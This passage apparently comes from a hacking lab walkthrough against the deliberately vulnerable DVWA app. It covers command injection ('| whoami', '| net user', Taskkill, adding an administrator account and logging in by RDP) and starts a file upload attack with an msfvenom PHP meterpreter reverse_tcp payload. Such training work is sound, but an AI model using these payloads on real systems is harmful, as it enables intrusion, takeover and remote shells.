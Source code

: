 - Click on "Command Injection" in the left pane.

- Under "Ping a device," enter the IP address of Windows Server (e.g., 10.10.1.22) and click "Submit."

- DVWA successfully pings the target machine.

- Try a different command. Enter `| hostname` and click "Submit."

- An error is returned, indicating the application is secure.

- Click on "DVWA Security" and set the security level to "Low." Click "Submit".

- Click on "Command Injection" again.

- Enter `| hostname` and click "Submit." DVWA returns the target machine's name.

- Execute more commands (e.g., `| whoami`, `| tasklist`, `| dir C:\`, `| net user`, etc.) to gather information.

- Terminate a process. Choose a process from the list, note its PID, and use `Taskkill` to terminate it.(e.g., `| Taskkill /PID [Process ID value of the desired process] /F` )

- View the directory structure of the C drive by entering `| dir C:\` and clicking "Submit."

- Execute commands to view other directories and obtain information related to user accounts (`| net user`).

- Use the command execution vulnerability to add a user account named "Test" (`| net user Test /Add`).

- View the new user account by entering `net user`.

- View the Test account's information by entering `net user Test`.

- Grant administrative privileges to the Test account (`net localgroup Administrators Test /Add`).

- Confirm the new setting by entering `net user Test`.

- Use Remote Desktop Connection to log in remotely with the Test account (leave the password field empty).

- This concludes the demonstration of exploiting a remote command execution vulnerability to compromise a target web server.

---
#### Exploit a File Upload Vulnerability at Different Security Levels

##### Low Security Level:

1. **Generate the raw payload:**
    ```bash
    msfvenom -p php/meterpreter/reverse_tcp LHOST=[IP Address] LPORT=4444 -f raw
    ```
    Replace `[IP Address]` with the Attacker IP Address.

2. **Copy the generated payload.**

3. **Create and edit `upload.php`:**
    ```bash
    pluma upload.php
    ```
    Paste the copied payload, save, and close.
